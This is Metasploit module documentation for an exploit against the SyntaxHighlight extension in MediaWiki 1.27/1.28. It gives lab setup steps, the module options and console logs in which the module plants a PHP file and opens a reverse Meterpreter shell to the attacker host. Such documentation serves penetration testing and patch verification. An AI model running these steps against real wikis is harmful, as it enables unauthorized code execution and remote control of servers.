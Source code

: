 ## Vulnerable Application

  Any MediaWiki installation with SyntaxHighlight version 2.0 installed & enabled. This extension ships with the AIO package of MediaWiki 1.27.x & 1.28.x.
  A fix for this issue is included in MediaWiki version 1.28.2 and version 1.27.3.

## Vulnerable Setup

To set up the vulnerable environment, please do:

  1. Download [MediaWiki (such as 1.28.0)](https://releases.wikimedia.org/mediawiki/1.28/mediawiki-1.28.0.tar.gz)
  2. Install MediaWiki on a LAMP setup (ideally)
  3. Install composer ```curl -sS https://getcomposer.org/installer | sudo php -- --install-dir=/usr/local/bin --filename=composer```
  4. Do: ```cd /var/www/html/mediawiki/extensions/SyntaxHighlight_GeSHi```
  5. Do: ```composer update```
  6. Open your LocalSettings.php with a text editor, and add this line at the end of the file: ```wfLoadExtension( 'SyntaxHighlight_GeSHi' );```

  At this point, you are ready to test this setup. 

## Verification Steps

  1. `use exploit/multi/http/mediawiki_syntaxhighlight`
  2. `set RHOST [ip target site]`
  3. `set TARGETURI [MediaWiki path]`
  4. `set UPLOADPATH [writable path in web root]`
  5. optionally set `RPORT`, `SSL`, and `VHOST`
  6. `exploit`
  7. **Verify** a new Meterpreter session is started
  
## Options

  **TARGETURI**

  The MediaWiki base path, the URL path on which MediaWiki is exposed. This is normally `/mediawiki`, `/wiki`, or `/w`.

  **UPLOADPATH**

  Folder name where MediaWiki stores the uploads, make sure to use a relative path here. For a regular installation this is the `images` folder. This folder needs to be writable by MediaWiki and accessible from the web root. The exploit will try to create a PHP file in this location that will later be called through the web server.

  **CLEANUP**

  Set this to true (the default) to unlink the PHP file created by this exploit module. The cleanup code will only be called when the exploit is successful.

  **USERNAME**

  In case the wiki is configured as private, a read-only (or better) account is needed to exploit this issue. Provide the username of that account here.

  **PASSWORD**

  In case the wiki is configured as private, a read-only (or better) account is needed to exploit this issue. Provide the password of that account here.

## Scenarios

### The Check command

The module comes with a check command that allows you to check whether the target might be
vulnerable or not, for example:

```
msf exploit(mediawiki_syntaxhighlight) > check
[*] 192.168.146.203:80 The target appears to be vulnerable.
```

### MediaWiki 1.27.1-2 on Ubuntu 16.10

```
msf > use exploit/multi/http/mediawiki_syntaxhighlight 
msf exploit(mediawiki_syntaxhighlight) > set RHOST 192.168.146.137
RHOST => 192.168.146.137
msf exploit(mediawiki_syntaxhighlight) > set TARGETURI /mediawiki
TARGETURI => /mediawiki
msf exploit(mediawiki_syntaxhighlight) > exploit

[*] Started reverse TCP handler on 192.168.146.197:4444 
[*] Local PHP file: images/bwpqtiqgmeydivskjcjltnldb.php
[*] Trying to run /mediawiki/images/bwpqtiqgmeydivskjcjltnldb.php
[*] Sending stage (33986 bytes) to 192.168.146.137
[*] Meterpreter session 1 opened (192.168.146.197:4444 -> 192.168.146.137:55768) at 2017-04-29 14:27:03 +0200
```
